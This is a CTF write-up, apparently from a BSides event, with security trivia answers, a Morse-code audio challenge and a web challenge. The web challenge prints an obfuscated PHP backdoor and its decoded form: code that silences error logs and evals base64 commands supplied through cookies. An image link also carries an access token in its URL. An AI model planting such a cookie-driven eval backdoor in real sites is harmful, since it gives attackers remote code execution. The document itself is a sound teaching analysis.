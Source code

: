 # General Information : 130 Point in 4 Challenge
- Rocker : 20 Point

I attack was published about me in Defcon Conference in 2011 I gain access to your phone during the charging process
to execute attack you need a cable that supports power and data connection together
The is Flag `juice jacking`

- Search with police  : 30 Point

I'm a new tool developed by a company who unlocked ios phone in a terrorist attack in San Bernardino, California.
This tool developed to a physical analyzer for smartphones like android and ios
The is Flag `UFED`

- Vegetables : 30 Point

I'm an operating system based on Linux designed to encrypt your data using onion routing and works through USB only
The is Flag `Tails`


- WhoAmi : 50 Point

I'm Jack and I have a penetration testing process for Automated Teller Machine and I don't have any money to buy rubber ducky or any advanced kits.
I've seen on the internet that I can do this tool with myself with some tools based on open-source hardware, I need something can simulate rubber ducky to inject code and enable PowerShell command or execute a command on Windows...
What's the name of this piece amid the family names?
The is Flag `leonardo`

# Web Challenge : 50 Point
- The Challenge is a [zip](https://github.com/X-Vector/CTF/blob/master/Bsides/c99.zip) file Which Contain a php code
```
<?php
$kyo1="JGM9J2NvdW50JzskYT0kX0NPT0tecJRTtecpZihyZecXecNecldCgkYSeck9PSecdecmbCcgJiYgJGMecoJGEpPjMpe2luaec";
$kyo3="zectldmFsecKGecJhc2Uec2NF9kZWNvZGUocHJlZ19ecyZXecBsYWNlKGecFycmF5KCcvW15cdz1cc1ec0vJywnL1xeczLycpLCBhcnJ";
$gj = "bcoxacoxse64cox_coxdcoxecoxccoxode";
$kyo4="heecSgnJywnKycpLCBqb2luKGecFyeccmF5X3NsaWNlKCecRhLCRjKCRhKS0zKSkpKSeckec7ZWNobyAnPC8nLiRrLiecc+Jzt9";
$iuq = "str_replace";
$kyo2="V9zZecXQoJ2Vyeccm9yX2xvZycecsICcvecZGV2L251bGwnKTskecaecz0nYWd7aGlkZGVuecX2eclecuX3BocH0nO2VjecaG8gJzwnLeciRecrLic+J";
$gj = $iuq("cox", "", $gj);
eval($gj($iuq("ec", "", $kyo1.$kyo2.$kyo3.$kyo4)));
?>
```
- first the variable `$iuq` containe a php build in function which is used to replcae any this words `ec` in this variables `$kyo1,$kyo2,$kyo3,$kyo4` with nothing then when excute the code the output will be

```
JGM9J2NvdW50JzskYT0kX0NPT0tJRTtpZihyZXNldCgkYSk9PSdmbCcgJiYgJGMoJGEpPjMpe2luaV9zZXQoJ2Vycm9yX2xvZycsICcvZGV2L251bGwnKTskaz0nYWd7aGlkZGVuX2luX3BocH0nO2VjaG8gJzwnLiRrLic+JztldmFsKGJhc2U2NF9kZWNvZGUocHJlZ19yZXBsYWNlKGFycmF5KCcvW15cdz1cc10vJywnL1xzLycpLCBhcnJheSgnJywnKycpLCBqb2luKGFycmF5X3NsaWNlKCRhLCRjKCRhKS0zKSkpKSk7ZWNobyAnPC8nLiRrLic+Jzt9
```
- decode it with base64 then the output will be
```
$c='count';$a=$_COOKIE;if(reset($a)=='fl' && $c($a)>3){ini_set('error_log', '/dev/null');$k='ag{hidden_in_php}';echo '<'.$k.'>';eval(base64_decode(preg_replace(array('/[^\w=\s]/','/\s/'), array('','+'), join(array_slice($a,$c($a)-3)))));echo '</'.$k.'>';}
```
- you will see that variable `$a` is `fl` and variable `$k` is `ag{hidden_in_php}` so your flag is `flag{hidden_in_php}`


# Crypto Challenge : 50 Point
- The Challenge is a [mp3](https://github.com/X-Vector/CTF/blob/master/Bsides/abusing.mp3) file Which This Sound Like Morse code
- Go to this [website](https://morsecode.scphillips.com/labs/audio-decoder-adaptive/) then upload mp3 file and you get this result
![Morse code](https://raw.githubusercontent.com/X-Vector/CTF/master/Bsides/morse.png?token=Ac-MuIyfT9F5B5lwWFnKAdTu2I1GK86Nks5cOkg0wA%3D%3D)
- We Play in This Words `ETTE L A G I N M C O D E W E T R U S T` To Get This Result `FLAGINMCODEWETRUST` Then We Submit and we get is wrong Then we add `{}_` to words to be `FLAG{IN_MCODE_TRUST}` and Flag is Correct
